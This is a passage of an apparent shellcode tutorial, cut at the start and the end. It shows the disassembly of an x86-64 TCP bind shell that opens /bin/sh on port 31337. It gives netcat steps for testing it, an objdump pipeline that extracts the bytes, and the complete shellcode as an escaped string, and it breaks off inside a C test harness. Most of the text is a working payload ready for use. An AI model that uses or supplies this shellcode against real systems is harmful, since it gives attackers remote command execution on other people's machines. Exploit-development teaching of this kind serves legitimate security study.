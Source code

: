 ```
  4000e0:   4d 31 c9                xor    r9,r9
  4000e3:   49 89 c1                mov    r9,rax
  4000e6:   4c 89 cf                mov    rdi,r9
  4000e9:   48 31 f6                xor    rsi,rsi
  4000ec:   6a 03                   push   0x3
  4000ee:   5e                      pop    rsi
00000000004000ef <doop>:
  4000ef:   48 ff ce                dec    rsi
  4000f2:   6a 21                   push   0x21
  4000f4:   58                      pop    rax
  4000f5:   0f 05                   syscall 
  4000f7:   75 f6                   jne    4000ef <doop>
  4000f9:   48 31 ff                xor    rdi,rdi
  4000fc:   57                      push   rdi
  4000fd:   57                      push   rdi
  4000fe:   5e                      pop    rsi
  4000ff:   5a                      pop    rdx
  400100:   48 bf 2f 2f 62 69 6e    movabs rdi,0x68732f6e69622f2f
  400107:   2f 73 68 
  40010a:   48 c1 ef 08             shr    rdi,0x8
  40010e:   57                      push   rdi
  40010f:   54                      push   rsp
  400110:   5f                      pop    rdi
  400111:   6a 3b                   push   0x3b
  400113:   58                      pop    rax
  400114:   0f 05                   syscall 
```
Test above executable on localhost using netcat under X:
Open a terminal under working directory,
```
$ ./tcpbindshell
```
Open another terminal,
```
$ nc localhost 31337
```
commands can now be executed in this terminal e.g. try typing ls to see contents of tcpbindshell directory.

Get shellcode from executable:
Use the following from the commandlinefu website replacing PROGRAM with the name of the required executable like so
```bash
$ objdump -d ./tcpbindshell | grep ‘[0-9a-f]:’ | grep -v ‘file’ | cut -f2 -d: | cut -f1-7 -d’ ‘ | tr -s ‘ ‘ | tr ‘t’ ‘ ‘ | sed ‘s/ $//g’ | sed ‘s/ /x/g’ | paste -d ” -s | sed ‘s/^/”/’ | sed ‘s/$/”/g’

“\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0\x4d\x31\xd2\x41\x52\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x7a\x69\x48\x89\xe6\x41\x50\x5f\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x41\x50\x5f\x6a\x01\x5e\x6a\x32\x58\x0f\x05\x48\x89\xe6\x48\x31\xc9\xb1\x10\x51\x48\x89\xe2\x41\x50\x5f\x6a\x2b\x58\x0f\x05\x59\x4d\x31\xc9\x49\x89\xc1\x4c\x89\xcf\x48\x31\xf6\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05”
```
The shellcode can be copied and pasted into a test program, similar to the one below. The #define PORT is to allow for an easily configurable port.
```c	
#include <stdio.h>
  
/*
 port 31337 (7a69)
*/
#define PORT "\x7a\x69"
  
unsigned char code[] = 
```